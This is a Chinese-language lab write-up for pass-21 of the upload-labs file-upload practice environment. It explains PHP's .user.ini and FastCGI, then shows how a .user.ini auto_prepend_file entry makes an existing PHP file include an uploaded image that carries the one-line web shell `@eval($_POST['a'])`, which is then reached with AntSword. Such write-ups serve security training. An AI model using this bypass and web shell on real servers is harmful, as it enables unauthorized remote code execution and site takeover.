


# pass-21（增）

　　我用的upload-lab是1-20关

　　下载查看了1-21关版本 多了pass-5 其他一次往后推

　　这关可以使用. .绕过 window下 这样子的话就和pass-9重合了

　　发现另外一种思路  **.user.ini**

　　**相关知识**  
.user.ini是php的一种配置文件，众所周知php.ini是php的配置文件，它可以做到显示报错，导入扩展，文件解析，web站点路径等等设置

　　自 PHP 5.3.0 起，PHP 支持基于每个目录的 .htaccess 风格的 INI 文件。此类文件仅被 CGI／FastCGI SAPI  
处理。此功能使得 PECL 的 htscanner 扩展作废。如果使用 Apache，则用 .htaccess 文件有同样效果。 官方解释： 除了主  
php.ini 之外，PHP 还会在每个目录下扫描 INI 文件，从被执行的 PHP 文件所在目录开始一直上升到 web  
根目录（$_SERVER[‘DOCUMENT_ROOT’] 所指定的）。如果被执行的 PHP 文件在 web 根目录之外，则只扫描该目录。  
这些模式决定着一个 PHP 的指令在何时何地，是否能够被设定。手册中的每个指令都有其所属的模式。例如有些指令可以在 PHP 脚本中用 ini_set()  
来设定，而有些则只能在 php.ini 或 httpd.conf 中。

　　**使用条件：**   
(1)服务器脚本语言为PHP  
(2)对应目录下面有可执行的php文件  
(3)服务器使用CGI／FastCGI模式

　　什么是 CGI  
       CGI 的全称为“通用网关接口”（Common Gateway Interface），为 HTTP 服务器与其他机器上的程序服务通信交流的一种工具， CGI 程序须运行在网络服务器上。

　　       传统 CGI 接口方式的主要缺点是性能较差，因为每次 HTTP 服务器遇到动态程序时都需要重新启动解析器来执行解析，之后结果才会被返回给 HTTP  
       服务器。这在处理高并发访问时几乎是不可用的，因此就诞生了 FastCGI。另外，传统的 CGI 接口方式安全性也很差，故而现在已经很少被使用了。

　　       什么是 FastCGI  
       FastCGI 是一个可伸缩地、高速地在 HTTP 服务器和动态服务脚本语言间通信的接口（在 Linux 下， FastCGI 接口即为 socket，这个socket 可以是文件 socket，也可以是IP socket），主要优点是把动态语言和 HTTP  
   服务器分离开来。多数流行的 HTTP 服务器都支持 FastCGI，包括 Apache 、 Nginx 和 Lighttpd 等。

　　       同时，FastCGI也被许多脚本语言所支持，例如当前比较流行的脚本语言PHP。FastCGI 接口采用的是C/S架构，它可以将 HTTP 服务器和脚本服务器分开，同时还能在脚本解析服务器上启动一个或多个脚本来解析守护进程。当 HTTP  
   服务器遇到动态程序时，可以将其直接交付给 FastCGI 进程来执行，然后将得到结果返回给浏览器。这种方式可以让 HTTP  
   服务器专一地处理静态请求，或者将动态脚本服务器的结果返回给客户端，这在很大程度上提高整个应用系统的性能。

　　优势**跟.htaccess后门比，适用范围更广，nginx/apache/IIS都有效，而.htaccess只适用于apache**

　　auto_prepend_file/auto_append_file  
这两个配置可以在php文件执行之前先包含制定的文件，所以我们可以上传一个图片马，这样就可以通过.user.ini使得这个图片马被包含，从而获取webshell

　　**这里要修改php.ini配置文件 去掉分号 分号是注释 时间是改成10是因为上传等待时间 默认300s太长了**

　　因为这里环境需要 **（nts，nt就是fastcgi模式）**

　　我用的是

　　.user.ini内容

　　**auto_prepend_file=a.jpg**

　　先上传.user.ini文件 再上传含有后门代码的a.jpg文件 根据提示：上传目录存在php文件（readme.php）

　　所以readme.php会自动包含a.jpg里面的代码 用蚁剑连接即可

　　a.jpg里面的一句话木马

　　 **&lt;?php @eval($_POST['a'])?&gt;**

　　连接成功

　　‍
